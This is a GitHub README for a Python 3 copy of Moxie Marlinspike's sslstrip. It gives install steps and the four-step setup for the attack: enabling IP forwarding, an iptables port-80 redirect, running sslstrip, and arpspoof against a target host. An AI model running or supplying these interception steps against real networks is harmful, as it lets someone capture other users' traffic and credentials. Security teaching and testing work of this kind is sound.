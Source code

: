 # SSLStripFixed
This is a copy of SSL Strip made by Moxie Marlinspike -- Only for Python3 (instead of Python2)

Straight from the original Repo (https://github.com/moxie0/sslstrip):

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping 
attacks.

It requires Python 2.5 or newer, along with the 'twisted' python module.

Installing:
	* Unpack: tar zxvf sslstrip-0.5.tar.gz
	* Install twisted:  sudo apt-get install python-twisted-web
	* (Optionally) run 'python setup.py install' as root to install, 
	  or you can just run it out of the directory.  

Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the 
	command-line options.

	The four steps to getting this working (assuming you're running Linux) 
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
	
	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

More Info:
	http://www.thoughtcrime.org/software/sslstrip/
